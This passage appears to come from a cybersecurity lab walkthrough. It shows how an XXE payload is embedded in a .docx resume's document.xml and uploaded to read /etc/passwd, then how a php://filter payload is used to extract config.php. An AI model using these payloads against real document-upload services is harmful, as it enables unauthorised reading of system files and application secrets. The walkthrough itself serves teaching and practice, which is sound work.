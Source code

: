 If we don't have the `docx` library installed, we can install it with:

```python
pip install python-docx
```

Now we need to do this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430162215.png)

Let's unzip it and add the `XXE` code:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430162255.png)

Now, we need to copy the payload and change the `Reginald Dodd` stuff to `&test;`:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430162458.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430162445.png)

Once we do the modifications, we need to zip it again, let's do:

```
zip resume.docx word/document.xml
```

Now, let's upload the file:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430162629.png)

There we go, as we can see, we are able to read `/etc/passwd`, let's modify the contents to read `config.php`, we need to unzip the `resume.docx` again, and change the payload to this one:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430163216.png)

Let's zip it again:

```
zip resume.docx word/document.xml
```

If we upload it:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430163726.png)


Let's decode the contents and save them to a file, now, we can check the `config.php` file:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250430163822.png)
